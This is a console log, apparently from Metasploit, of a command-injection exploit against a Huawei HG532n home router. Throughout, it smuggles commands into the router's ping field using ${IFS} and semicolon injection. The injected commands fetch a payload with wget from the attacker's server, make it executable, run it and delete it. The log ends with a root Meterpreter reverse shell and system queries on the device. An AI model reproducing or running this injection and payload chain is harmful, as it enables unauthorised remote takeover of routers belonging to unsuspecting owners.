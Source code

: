 ```
[*] Received new reply token = 'HG520b>'
[+] Prompt received. Telnet access fully granted!
[*] Starting web server; hostinig /MDGuEPiUDBRXD
[*] Using URL: http://0.0.0.0:8080/MDGuEPiUDBRXD
[*] Local IP: http://192.168.1.3:8080/MDGuEPiUDBRXD
[*] Runninig command on target: wget -g -v -l /tmp/zjtmztfz -r /MDGuEPiUDBRXD -P8080 41.34.32.121
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;wget${IFS}-g${IFS}-v${IFS}-l${IFS}/tmp/zjtmztfz${IFS}-r${IFS}/MDGuEPiUDBRXD${IFS}-P8080${IFS}41.34.32.121;true'
[*] Received new reply token = 'ping: bad address '?''
[+] HTTP server received request. Sending payload to victim
[*] Received new reply token = 'The IP is [41.34.32.121]'
[*] Received new reply token = 'Success
ping result:
HG520b>'
[+] Command executed succesfully
[*] Runninig command on target: chmod 777 /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;chmod${IFS}777${IFS}/tmp/zjtmztfz;trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed succesfully
[*] Runninig command on target: /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;/tmp/zjtmztfz&trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed succesfully
[*] Runninig command on target: rm /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;rm${IFS}/tmp/zjtmztfz;trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed succesfully
[*] Waiting for the payload to connect back ..
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 197.38.98.11:50097) at 2017-04-15 16:45:05 +0200
[+] Payload connected!
[*] Server stopped.

msf exploit(huawei_hg532n_cmdinject) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.21.5)
Architecture : mips
Meterpreter  : mipsbe/linux
meterpreter >
```
